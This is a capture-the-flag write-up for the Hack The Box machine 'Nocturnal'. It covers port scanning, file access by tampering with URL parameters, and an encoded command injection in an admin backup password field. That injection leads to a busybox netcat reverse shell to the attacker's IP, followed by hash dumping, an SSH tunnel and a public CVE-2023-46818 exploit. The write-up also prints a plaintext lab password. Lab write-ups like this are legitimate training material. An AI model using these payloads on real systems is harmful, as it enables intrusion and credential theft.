 # HTB - Nocturnal

## Reconnaissance

### Port Scanning

To begin the assessment, a full TCP SYN scan was conducted across all ports using the following command:

```bash
sudo nmap -sS -Pn -n -p- --min-rate 5000 10.10.11.64
````

![Full port scan](images/Pasted%20image%2020250727143751.png)

Once open ports were identified, a service/version detection scan was executed against the relevant ports:

```bash
sudo nmap -sCV -Pn -n -p22,80 10.10.11.64
```

![Service detection](images/Pasted%20image%2020250727143936.png)

The scan revealed the hostname `http://nocturnal.htb`. The hostname was added to the `/etc/hosts` file for name resolution:

![Hosts entry](images/Pasted%20image%2020250727144211.png)

---

## Web Exploration

Accessing the domain:

![Website homepage](images/Pasted%20image%2020250727144235.png)

A test user account was created:

![Test user created](images/Pasted%20image%2020250727144334.png)

The upload functionality accepted the following file extensions: `.pdf`, `.doc`, `.docx`, `.xls`, `.xlsx`, `.odt`.

![Upload filetypes](images/Pasted%20image%2020250727144655.png)

By analyzing the request structure and upload behavior, it was possible to manipulate the `username` and `file` parameters to access files uploaded by other users:

![Parameter tampering](images/Pasted%20image%2020250727145006.png)

---

## Enumeration and File Discovery

A brute-force attack was launched to discover possible users and filenames:

![Brute-force](images/Pasted%20image%2020250727152938.png)

Discovered:

* **Username:** `amanda`
* **File:** `privacy.odt`

![File found](images/Pasted%20image%2020250727153012.png)

The file was accessed and downloaded using:

```
http://nocturnal.htb/view.php?username=amanda&file=privacy.odt
```

![File downloaded](images/Pasted%20image%2020250727153131.png)

Upon inspection, the file revealed Amanda’s credentials:

![Credentials extracted](images/Pasted%20image%2020250727153219.png)

With these credentials, access to an admin panel was granted:

![Admin access](images/Pasted%20image%2020250727153308.png)

---

## Vulnerability in Admin Panel

Reviewing `admin.php` exposed a vulnerable **backup feature**:

![Backup vulnerability](images/Pasted%20image%2020250727153329.png)

### Vulnerability Summary

* Admins could generate ZIP backups of the directory, protected by a user-supplied password.
* The password was passed to the `zip` command inside a `proc_open()` shell call.
* Input sanitization via `cleanEntry()` was weak, blacklisting characters like `;`, `&`, `|`, `$`, spaces, etc.
* No robust escaping or whitelisting was applied.

To test for command injection, the POST request was intercepted and the `password` parameter was modified as follows:

```http
POST /admin.php HTTP/1.1
Host: nocturnal.htb
...
Content-Type: application/x-www-form-urlencoded
...

password=%0abash%09-c%09"whoami"&backup=
```

**Explanation of payload:**

* `%0a`: newline to terminate previous input
* `%09`: URL-encoded tab character
* `bash -c "whoami"`: command to be executed

![Command injection test](https://miro.medium.com/v2/resize\:fit:700/1*v9oRPOPOuTWfR2fwdcHlHQ.png)

---

## Reverse Shell

Once command injection was confirmed, a reverse shell was executed using BusyBox netcat:

```bash
password=%0abash%09-c%09"busybox%09nc%0910.10.14.20%094444%09-e%09/bin/bash”&backup=
```

![Payload sent](https://miro.medium.com/v2/resize\:fit:388/1*GEcOas5C_hPieT-HceJgtQ.png)

Listener on the attacking machine:

![Listener](images/Pasted%20image%2020250727143254.png)

A shell was obtained, and SQLite was used to dump user hashes from the internal database. The user containing the flag was **tobias**:

![Database dump](images/Pasted%20image%2020250727143507.png)

The password hash was cracked using [https://hashes.com](https://hashes.com/):

![Hash cracked](images/Pasted%20image%2020250727143326.png)

SSH access was achieved using Tobias’s credentials:

```bash
ssh tobias@nocturnal.htb
```

![SSH session](images/Pasted%20image%2020250727153703.png)

---

## Pivoting: Accessing Internal Services

During local enumeration, an internal service was discovered on port **8080**. To access it, an SSH tunnel was created:

```bash
ssh -L 8081:127.0.0.1:8080 tobias@nocturnal.htb
```

![Port forwarding](https://miro.medium.com/v2/resize\:fit:700/1*rE930kDY1XVJl9wmgZ6ErA.png)

The forwarded port revealed an **ISPConfig** interface:

* **Username:** admin
* **Password:** slowmotionapocalypse

![ISPConfig login](https://miro.medium.com/v2/resize\:fit:361/1*8EfRE_MuT-yDx7WsCSFRcA.png)

---

## Remote Code Execution (RCE)

ISPConfig was running a version vulnerable to:

> **CVE-2023-46818** — Remote Code Execution

A public exploit was retrieved from GitHub:

[https://github.com/engranaabubakar/CVE-2023-46818](https://github.com/engranaabubakar/CVE-2023-46818)

The exploit successfully escalated privileges to **root**, completing the challenge.

![Root access](https://miro.medium.com/v2/resize\:fit:700/1*3UbdM_Teou82L1XZcnoYPA.png)
